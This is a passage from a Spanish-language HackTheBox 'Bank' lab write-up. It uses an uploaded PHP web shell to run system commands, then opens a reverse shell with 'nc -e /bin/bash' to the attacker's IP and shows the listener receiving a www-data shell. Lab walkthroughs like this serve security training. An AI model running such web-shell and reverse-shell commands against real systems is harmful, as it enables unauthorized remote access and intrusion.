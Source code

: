 ![](/assets/images/htb-bank/bank-web2.png)

Le damos click en **Click Here** y nos lleva a nuestro archivo bajo el recurso `/uploads` y vemos que podemos ejecutar comandos a nivel de sistema.

![](/assets/images/htb-bank/bank-web3.png)

Ahora vamos a ponernos en escucha por el puerto 443 y vamos a entablarnos una reverse shell.

```bash
http://bank.htb/uploads/k4mishell.htb?cmd=nohup nc -e /bin/bash 10.10.14.27 443 &
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.29] 42698
whoami
www-data
```
